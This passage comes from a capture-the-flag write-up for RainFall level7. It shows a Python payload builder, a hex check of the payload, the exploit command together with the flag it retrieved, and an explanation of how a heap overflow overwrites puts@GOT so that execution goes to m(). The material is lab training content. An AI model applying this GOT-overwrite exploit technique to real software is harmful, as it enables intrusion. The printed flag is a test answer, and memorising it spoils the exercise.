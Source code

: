 ### Method 3: Using struct Module

```python
#!/usr/bin/env python2
import struct

# Build payloads using struct for clean conversion
puts_got_addr = 0x08049928
m_func_addr = 0x080484f4

payload1 = "A" * 20 + struct.pack("<I", puts_got_addr)
payload2 = struct.pack("<I", m_func_addr)

print "Payload 1 length:", len(payload1)
print "Payload 2 length:", len(payload2)
```

### Payload Verification

```bash
# Verify payload lengths and content
python2 -c 'print "A"*20 + "\x28\x99\x04\x08"' | xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 2899 0408                      AAAA(...

python2 -c 'print "\xf4\x84\x04\x08"' | xxd  
00000000: f484 0408                                ....
```

---

## 🎯 Execution and Flag Retrieval

### Successful Exploitation

```bash
level7@RainFall:~$ ./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1757153188
```

### Execution Analysis

**What happened step-by-step**:

1. **First strcpy()**: 
   - Writes 24 bytes to `var1->field2` buffer (8 bytes + 12 overflow + 4-byte pointer)
   - Overwrites `var2->field2` pointer with `0x08049928` (puts@GOT address)

2. **Second strcpy()**:
   - Writes `0x080484f4` (m() address) to location pointed by `var2->field2`
   - Effectively: `puts@GOT = m_function_address`
